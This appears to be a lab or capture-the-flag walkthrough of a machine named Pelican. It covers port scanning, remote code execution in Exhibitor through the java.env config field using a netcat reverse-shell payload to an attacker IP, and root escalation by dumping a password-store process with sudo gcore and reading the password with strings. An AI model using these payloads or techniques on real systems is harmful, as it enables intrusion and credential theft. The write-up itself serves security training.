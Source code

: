 # Pelican

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.98 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:56 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown
```

Ran a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,139,445,631,2181,222,8080,8081 -sC -sV --min-rate 4000 192.168.219.98
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:57 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).

PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
222/tcp  closed rsh-spx
445/tcp  open   netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
8080/tcp open   http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp open   http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.219.98:8080/exhibitor/v1/ui/index.html
```

There's a ZooKeeper software, but there aren't any exploits for it. Port 8081 had an Exhibitor software being used, and there are RCE exploits for this:

```
$ searchsploit exhibitor
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution             | java/webapps/48654.txt
----------------------------------------------------------- ---------------------------------
```

### Exhibitor RCE

The Exhibitor RCE is rather simple, and the Config tab looks rather vulnerable.&#x20;

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The `java.env` script part seems to be running `bash`. I downloaded the exploit found from `searchsploit`, and attempted their POC:

```
$(nc -e /bin/bash 192.168.45.182 4444)
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Afterwards, committing the changes would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Gcore --> Root Creds

The current user has some `sudo` privileges:

```
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

`gcore` is a program that is used to create core dumps of running processes, and since we can use `sudo` with it, we essentially can create these dumps of any processes. As such, let's enumerate what `root` is running:

```
charles@pelican:/opt/zookeeper$ ps -ef | grep root
<TRUNCATED>
root       510   459  0 22:53 ?        00:00:00 /bin/sh -c while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
avahi      522   456  0 22:53 ?        00:00:00 avahi-daemon: chroot helper
root       527     1  0 22:53 ?        00:00:00 /usr/bin/password-store
<TRUNCATED>
```

There's a `password-store` binary being run, which is essentially a password manager. We can create a core dump for this process:

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 527
0x00007f31c88806f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fffe1091db0, remaining=remaining@entry=0x7fffe1091db0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.527
```

We can then use `strings` on the core dump file to find a password:

```
charles@pelican:/opt/zookeeper$ strings core.527
<TRUNCATED>
001 Password: root:
ClogKingpinInning731
x86_64
/usr/bin/password-store
<TRUNCATED>
```

Using this password, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
